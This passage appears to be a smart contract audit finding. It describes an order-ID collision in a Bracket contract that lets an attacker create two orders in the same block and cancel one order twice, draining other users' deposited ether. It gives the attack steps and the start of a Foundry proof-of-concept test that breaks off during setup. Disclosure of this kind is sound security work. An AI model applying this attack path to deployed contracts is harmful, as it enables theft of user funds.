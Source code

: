 ### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. At block `n`, an attacker calls `Bracket::createOrder()` with amount in = 0.1 ether (for the simplicity let ignore the other parameters) and transaction succeeds. Let's say the order has id `ORDER_ID`
2. At the same block `n`, after the above transaction, the attacker calls `Bracket::createOrder()` with amount in = 10 ether and transaction succeeds. After this transaction, the attacker's pending order has `amoutIn = 10 ether`
3. The attacker calls `Bracket::cancelOrder(ORDER_ID)` and gets refunded 10 ether
4. Again, the attacker calls `Bracket::cancelOrder(ORDER_ID)` and gets refunded 10 ether
5. At this point, the attacker drains `9.9 ether` from contract, in which the funds are from other orders

### Impact

- Funds from orders are drained

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {Bracket, IERC20, IBracket} from "contracts/automatedTrigger/Bracket.sol";
import {AutomationMaster, IPythRelay, IAutomation} from "contracts/automatedTrigger/AutomationMaster.sol";
import "contracts/interfaces/uniswapV3/IPermit2.sol";
import {MockERC20} from "forge-std/mocks/MockERC20.sol";

contract MockToken is MockERC20 {
    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract MyTest is Test {
    Bracket bracket;
    AutomationMaster master;
    address permit2;

    IERC20 usdc;
    IERC20 weth;

    address usdcOracle;
    address wethOracle;

    IERC20[] tokens;
    IPythRelay[] oracles;

    uint96 currentOrderId;

    address alice;

    function setUp() public {
        permit2 = makeAddr("permit2");
```